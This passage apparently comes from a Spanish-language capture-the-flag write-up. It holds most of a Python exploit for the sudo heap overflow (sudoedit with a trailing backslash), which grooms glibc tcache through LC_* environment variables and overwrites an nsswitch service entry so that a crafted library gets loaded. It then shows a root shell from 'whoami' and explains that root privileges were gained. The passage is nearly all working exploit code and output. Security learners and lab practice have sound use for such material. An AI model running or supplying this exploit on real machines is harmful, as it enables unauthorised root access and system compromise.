	libc.execve.argtypes = c_char_p,POINTER(c_char_p),POINTER(c_char_p)
	
	cargv = (c_char_p * len(argv))(*argv)
	cenvp = (c_char_p * len(envp))(*envp)

	libc.execve(filename, cargv, cenvp)

def lc_env(cat_id, chunk_len):
	name = b"C.UTF-8@"
	name = name.ljust(chunk_len - 0x18, b'Z')
	return LC_CATS[cat_id]+b"="+name


assert check_is_vuln(), "target is patched"
assert check_libc_version(), "glibc is too old. The exploit is relied on glibc tcache feature. Need version >= 2.26"
assert check_libc_tcache(), "glibc tcache is not found"
assert check_nscd_condition(), "nscd service is running, exploit is impossible with this method"
service_user_idx = get_service_user_idx()
assert service_user_idx < 9, '"group" db in nsswitch.conf is too far, idx: %d' % service_user_idx
create_libx("X/X1234")

# Note: actions[5] can be any value. library and known MUST be NULL
FAKE_USER_SERVICE_PART = [ b"\\" ] * 0x18 + [ b"X/X1234\\" ]

TARGET_OFFSET_START = 0x780
FAKE_USER_SERVICE = FAKE_USER_SERVICE_PART*30
FAKE_USER_SERVICE[-1] = FAKE_USER_SERVICE[-1][:-1]  # remove last '\\'. stop overwritten

CHUNK_CMND_SIZE = 0xf0

# Allow custom extra_chunk_cnt incase unexpected allocation
# Note: this step should be no need when CHUNK_CMND_SIZE is 0xf0
extra_chunk_cnt = get_extra_chunk_count(CHUNK_CMND_SIZE) if len(sys.argv) < 2 else int(sys.argv[1])

argv = [ b"sudoedit", b"-A", b"-s", b"A"*(CHUNK_CMND_SIZE-0x10)+b"\\", None ]
env = [ b"Z"*(TARGET_OFFSET_START + 0xf - 8 - 1) + b"\\" ] + FAKE_USER_SERVICE
# first 2 chunks are fixed. chunk40 (target service_user) is overwritten from overflown cmnd (in get_cmnd)
env.extend([ lc_env(0, 0x40)+b";A=", lc_env(1, CHUNK_CMND_SIZE) ])

# add free chunks that created before target service_user
for i in range(2, service_user_idx+2):
	# skip LC_ALL (6)
	env.append(lc_env(i if i < 6 else i+1, 0x40))
if service_user_idx == 0:
	env.append(lc_env(2, 0x20)) # for filling hole

for i in range(11, 11-extra_chunk_cnt, -1):
	env.append(lc_env(i, CHUNK_CMND_SIZE))

env.append(lc_env(12, 0x90)) # for filling holes from freed file buffer
env.append(b"TZ=:")  # shortcut tzset function
# don't put "SUDO_ASKPASS" environment. sudo will fail without logging if no segfault
env.append(None)

execve(SUDO_PATH, argv, env)
```

Resultado:

```bash
# whoami
root
```

Explicación: ganamos acceso al sistema y elevamos privilegios como usuario root

[Ver Matrix 1 explotación](Matrix%20explotación.md)


---


